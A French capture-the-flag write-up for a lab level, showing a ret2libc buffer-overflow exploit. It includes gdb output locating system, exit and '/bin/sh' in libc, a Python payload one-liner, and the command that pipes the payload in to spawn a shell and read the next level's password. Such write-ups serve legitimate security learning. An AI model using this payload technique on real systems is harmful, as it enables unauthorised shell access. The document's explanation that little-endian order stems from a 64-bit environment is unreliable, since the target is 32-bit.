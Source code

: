 Ayant trouve un nom d'utilisateur "dat_wil" et un mot de passe "admin", on tente de les rentrer.
Le mot de passe ne semble pas fonctionner. La fonction ne disposant pas d'un appel system, nous allons devoir faire appel à une attaque ret2libc.

On trouve si on peut faire crasher le programme avec une trop grosse chaine de caractere pour le nom d'utilisateur et le mot de passe.
En effectuant de nombreux tests manuels, on se rend compte que le mot de passe entraine un segfault si jamais on tape 80+ caracteres.
On a donc l'offset pour envoyer un payload.

Pour que ce payload soit utile, on va devoir acceder à certaines informations.
On demarre donc le programme avec "r" dans gdb.

On fait crash le programme lors de la saisie du mot de passe.

Suite au crash, on tape la commande
```info proc map```

On a alors le tableau suivante:
```process 1888
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fdb000     0x3000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

Pour chaque ligne, on tape la commande du debut a la fin de l'addresse, pour retrouver la string "/bin/sh": (0xf7f897ec)
```(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```


On cherche l'adresse de la fonction system avec la commande: (0xf7e6aed0)
```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```

On cherche l'adresse de la fonction exit avec la commande: (0xf7e5eb70)
```
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit
```

Le payload sera constitué de la manière suivante: offset ('*' * 80) + "system" + "exit" + "/bin/sh"
```python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload```

```cat /tmp/payload - | ./level01```

```cat /home/users/level02/.pass```


Explications supplementaires:

Il est à noté que l'appel à exit est optionnel, en effet, ligne suivante fonctionne egalement:

```python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload```

Exit permet juste de quitter le programme proprement. Il est par contre imperatif de disposer d'une adresse en l'appel à system et à son argument /bin/sh.
En effet, l'assembleur a besoin de disposer d'une adresse de sortie après l'appel d'une fonction, avant de recevoir les arguments.

Ne pas indiquer d'une adresse entre system et /bin/sh fera qu'il n'y aura pas d'arguments et que /bin/sh sera la fonction de sortie, ce qui posera problème.

Enfin, vis à vis de l'ordre inversé des chiffres des adresses, cela est dû à l'architecture 64 bits de notre environnement, qui nous fait passer au format de lecture little endian.

Source: https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc